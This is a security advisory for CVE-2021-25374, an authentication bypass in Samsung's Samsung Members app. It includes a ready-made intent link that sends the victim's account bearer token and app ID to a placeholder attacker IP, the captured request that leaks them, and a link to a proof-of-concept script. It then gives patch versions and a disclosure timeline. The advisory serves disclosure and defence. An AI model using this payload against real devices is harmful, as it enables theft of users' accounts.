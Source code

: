 ```yaml
---
layout: page
title: CVE-2021-25374 Details
permalink: /cves/cve-2021-25374
---
```


#### Original post: [https://labs.f-secure.com/advisories/samsung-s20-gain-access-to-samsung-account/](https://labs.f-secure.com/advisories/samsung-s20-gain-access-to-samsung-account/)

|    **Product**    | Samsung phones with Samsung Members (version dependent on OS) |
|    **Severity**   |                  High                  |
| **CVE Reference** |             CVE-2021-25374             |
|      **Type**     |          Authentication Bypass         |

## Description

F-Secure looked into exploiting the Samsung S20 device for Tokyo Pwn2Own 2020. An issue was discovered that would have allowed an attacker to gain access to the victim's Samsung Account. 

## Technical Details

Samsung Members (com.samsung.android.voc) is an application which offers tips and solutions for Samsung device owners. For US and South Korean users, the app also offers a portal to login to Samsung Members, the official Samsung loyalty program.

A webview within the Samsung Rewards section of the application could be used to obtain access to someone's Samsung account. The following launchable intent could be used to replicate this issue:

```
<a href="intent://launch?url=http://<attacker IP>:8000/yay.html&action=sso&from=ZZ&iso=ZZ#Intent;scheme=samsungrewards;package=com.samsung.android.voc;action=android.intent.action.VIEW;end;">yay click here yay</a>
```

Users that have a vulnerable version of Samsung Members installed are at risk of having their Samsung Account compromised via the above browsable link. After tapping the above link on a vulnerable phone, the application will make a HTTP request similar to the following, which contains the user’s authorization bearer token and appid. In this scenario, an attacker controls the IP address located at "<attacker IP>":

```
GET /yay.html HTTP/1.1
Host: <attacker IP>:8000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; SM-G985F Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/85.0.4183.127 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
authorization: Bearer <bearer value>
x-osp-appid: <appid value>
X-Requested-With: com.samsung.android.voc
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Using these two pieces of information, it is possible for an attacker to make a series of requests that would give the attacker access to the user’s Samsung Account. F-Secure developed a Python Proof of Concept (PoC) script that would automate the series of requests and print the account's profile information. The screenshot below shows the PoC script in action (left) and what the phone displays during exploitation (right):

![yay](/assets/my_cves/cve-2021-25374_1.png)

The PoC script can be found on F-Secure's GitHub page at [https://github.com/Yogehi/CVE-2021-25374_Samsung-Account-Access](https://github.com/Yogehi/CVE-2021-25374_Samsung-Account-Access).

## Remedial Action

Samsung has released patched versions of Samsung Members which addresses the above issue. The version that should be downloaded depends on the OS of the device itself.

* Devices running Android O (8.1) and below should download Samsung Members version 2.4.83.9 or above
* Devices running Android P (9.0) and above should download Samsung Members version 3.9.00.9 or above

## Credits

This issue was discovered by Ken Gannon.

## Timeline

|    **Date**    | **Summary** |
|   03/10/2020   | Issue disclosed to Samsung Mobile Security |
|   03/10/2020   | Issue assigned to a Samsung Security Analyst |
|   25/10/2020   | Samsung confirms the vulnerability and rates it as a high risk issue |
|   11/01/2021   | Follow up sent to Samsung |
|   11/01/2021   | Samsung responded to follow up saying a patch is still being worked on |
|   06/04/2021   | Patch released, Samsung initiates process for bug bounty reward |
|   06/04/2021   | CVE Assigned |
|   28/04/2021   | Advisory Published |
